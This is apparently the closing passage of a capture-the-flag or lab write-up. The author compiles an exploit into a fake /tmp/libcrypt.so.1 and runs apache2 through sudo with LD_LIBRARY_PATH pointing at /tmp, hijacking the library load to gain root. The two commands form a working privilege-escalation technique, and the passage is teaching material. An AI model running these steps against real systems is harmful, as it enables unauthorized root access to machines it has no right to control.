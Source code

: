 ![Alt text](/posts/res/hij_25.png)

with the script now on the target machine, let's go ahead and compile it 

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC exploit.c
```

```
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

![Alt text](/posts/res/hij_26.png)

finally, we are root!!!!

![Alt text](/posts/res/hij_27.png)


and that's all for this writeup. if you have any issues while using this writeup feel free to reach out to me on twitter(X) [Twitter](https://x.com/NwadinobiJude)





